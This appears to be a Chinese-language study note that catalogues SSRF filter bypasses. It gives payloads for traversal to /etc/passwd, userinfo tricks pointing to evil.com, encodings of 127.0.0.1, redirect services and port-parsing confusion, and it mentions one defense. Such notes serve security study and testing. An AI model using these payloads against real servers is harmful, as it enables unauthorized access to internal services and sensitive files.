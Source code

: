 ## 限制方法及如何绕过

- 限制请求的端口只能为web端口，即http、https请求
  - **利用不存在的协议头绕过**
    - file_get_contents() include() 在遇到不认识的协议头时候会将这个协议头当做文件夹，造成目录穿越漏洞
    - eg:ssrf.php?url=httpsssss://../../../../../../etc/passwd
- 限制域名为指定域名设置URL    白名单或限制内网IP   eg:www.baidu.com
  - **利用HTTP基本身份认证的方式绕过**
    - eg:http://www.baidu.com@www.evil.com
    - --》eg:http://www.baidu.com@www.evil.com
  - **利用curl和parse_url的解析差异绕过指定host**
    - ssrf.php?url=http://@127.0.0.1:80@www.baidu.com/flag.php
  - <img src="images/image-20210304212752925.png" alt="image-20210304212752925" width="50%" />
- 限制对域名127.0.0.1的访问
  - **利用302跳转（禁止302跳转，或者每次跳转都检查新的Host是否是内网IP，直至抵达最后的网址）**
    - 特殊网站 [http://xip.io](http://xip.io/)  [http://nip.io](http://nip.io/) http://sslip.io
      - eg:http://127.0.0.1.xip.io/flag.php
    - 短地址跳转绕过
      - eg:https://4m.cn/ 生成目标地址的短地址
  - **进制转换**（127.0.0.1）
    - 十进制 2130706433
    - 八进制  0177.0.0.1
    - 十六进制 0x7f.0.0.1
  - **其他指向127.0.0.1的地址**
    - http://localhost/ # localhost就是代指127.0.0.1
    - http://0/ # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
    - http://[0:0:0:0:0:ffff:127.0.0.1]/ # 在liunx下可用，window测试了下不行
    - http://[::]:80/ # 在liunx下可用，window测试了下不行
    - http://127。0。0。1/ # 用中文句号绕过
    - http://①②⑦.⓪.⓪.①
    - http://127.1/http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
- 限制或禁止某些端口的访问
  - **利用readfile和parse_url函数的解析差异性**
  - ssrf.php?url=127.0.0.1:11211:80/flag.txt 
  - 限制只能访问80端口，但实际访问的11211端口